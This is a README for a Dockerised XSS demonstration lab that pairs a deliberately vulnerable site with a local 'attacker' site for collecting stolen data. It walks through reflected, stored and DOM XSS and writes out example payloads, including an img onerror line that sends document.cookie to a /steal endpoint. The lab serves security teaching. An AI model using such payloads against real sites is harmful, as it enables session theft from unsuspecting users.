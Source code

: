 # XSS Security Demonstration Lab

## Overview
This lab demonstrates XSS vulnerabilities using two sites:

- **Port 8001**: Vulnerable Site (deliberately unsafe for XSS testing)
- **Port 8002**: Attacker Site (collects stolen data)

## Quick Start

1. **Start Lab**
   ```bash
   docker-compose up --build
   ```

2. **Install CA Certificate**
   - Install `./certs/ca.crt` in your browser to avoid SSL warnings

3. **Access Sites**
   - Vulnerable Site: https://localhost:8001
   - Attacker Site: https://localhost:8002

## Demo Flow

### Step 1: Test Reflected XSS
1. Visit https://localhost:8001
2. Use search form with payload: `<script>alert('XSS')</script>`
3. Try cookie theft: `<img src=x onerror="fetch('https://localhost:8002/steal?cookies='+document.cookie)">`

### Step 2: Test Stored XSS
1. Submit course review with XSS payload
2. Reload page to see persistent attack

### Step 3: Test DOM XSS
1. Use Contact Support form
2. Put payload in Subject field: `<img src=x onerror="alert('DOM XSS')">`
3. Click "Preview Message"

### Step 4: Monitor Stolen Data
1. Keep attacker site open: https://localhost:8002
2. Watch real-time data collection as payloads execute
3. See cookies, keystrokes, and other stolen information

## XSS Types Demonstrated
- **Reflected**: Search form echoes input without sanitization
- **Stored**: Comments stored and displayed to other users
- **DOM**: Client-side JavaScript processes user input unsafely
